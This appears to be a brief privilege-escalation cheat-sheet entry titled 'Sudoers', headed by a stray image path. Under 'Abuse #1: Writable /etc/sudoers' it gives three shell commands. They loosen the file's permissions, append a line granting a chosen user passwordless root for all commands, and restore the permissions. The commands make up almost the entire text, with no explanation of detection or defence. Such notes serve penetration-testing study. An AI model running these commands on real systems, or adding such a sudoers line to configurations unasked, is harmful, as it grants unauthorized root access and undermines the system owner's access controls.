 ```yaml
---
title: "Sudoers"
date: 2024-7-3
tags: ["Sudoers", "Sudo", "Privilege Escalation", "/etc/sudoers"]
---
```


#### Abuse #1: Writable /etc/sudoers

```console
chmod 600 /etc/sudoers
```

```console
echo '<USER>   ALL=(ALL) NOPASSWD: ALL' >> /etc/sudoers
```

```console
chmod 440 /etc/sudoers
```
